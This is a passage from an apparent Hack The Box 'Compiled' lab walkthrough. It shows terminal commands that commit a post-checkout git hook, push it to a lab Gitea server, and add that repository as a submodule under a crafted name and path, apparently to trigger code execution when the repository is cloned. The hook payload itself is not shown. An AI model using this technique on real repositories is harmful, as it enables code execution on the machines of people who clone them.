 
Step 3: commit these changes and push them back to `Gitea`:
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled/hook]
└─$ git add y/hooks/post-checkout
                                                                                                                                                                                
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled/hook]
└─$ git commit -m "post-checkout"
[main (root-commit) 1bdd6c8] post-checkout
 1 file changed, 1 insertion(+)
 create mode 100755 y/hooks/post-checkout
                                                                                                                                                                                
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled/hook]
└─$ git push                     
Username for 'http://10.10.11.26:3000': wither
Password for 'http://wither@10.10.11.26:3000': 
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Writing objects: 100% (5/5), 331 bytes | 331.00 KiB/s, done.
Total 5 (delta 0), reused 0 (delta 0), pack-reused 0 (from 0)
remote: . Processing 1 references
remote: Processed 1 references in total
To http://10.10.11.26:3000/wither/hook.git
 * [new branch]      main -> main

```

Step 4: clone a second `repo` named `captain` 
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled]
└─$ git clone http://10.10.11.26:3000/wither/captain.git
Cloning into 'captain'...
warning: You appear to have cloned an empty repository.
                                                                                                                                                                                
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled]
└─$ cd captain 
```

Step 5: add the `hook` `repo` as a `submodule`:
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled/captain]
└─$ git submodule add --name x/y http://10.10.11.26:3000/wither/hook.git A/modules/x
Cloning into '/home/wither/Templates/htb-labs/Compiled/captain/A/modules/x'...
remote: Enumerating objects: 5, done.
remote: Counting objects: 100% (5/5), done.
remote: Total 5 (delta 0), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (5/5), done.
                                                                                                                                                                                
┌──(wither㉿localhost)-[~/Templates/htb-labs/Compiled/captain]
└─$ git commit -m "add-submodule"
[main (root-commit) efe3354] add-submodule
 2 files changed, 4 insertions(+)
 create mode 100644 .gitmodules
 create mode 160000 A/modules/x

```
